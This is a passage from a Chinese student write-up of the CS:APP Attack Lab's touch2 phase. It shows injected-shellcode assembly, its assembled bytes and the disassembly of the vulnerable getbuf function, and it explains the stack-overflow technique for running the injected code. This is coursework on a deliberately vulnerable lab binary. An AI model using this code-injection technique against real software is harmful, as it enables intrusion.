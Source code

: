 ```assembly
pushq  $0x4017ec          /*压入touch2函数的起始位置，ret的时候会返回touch2 */
mov    $0x59b997fa,%edi   /*将cookie值赋值给rdi寄存器，也就是参数val */
ret 					  /*返回栈首，就是刚压入的0x4017ec地址
```

通过附录2的提示，我们调用命令，得到字节码

![image-20211029201102536](实验3：AttackLab.assets/image-20211029201102536.png)

```assembly

touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   a:	c3                   	retq   

```

可以得到字节码序列为`68 ec 17 40 00 bf fa 97 b9 59 c3`

接下来是如何去调用这段字节码，我们可以观察getbuf函数

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

先是分配了大小为40字节的栈空间，也就是我们输入的字符串位置，如果我们将字节码放在输入串中，只要ret的位置在栈首即可调用，如下图所示。
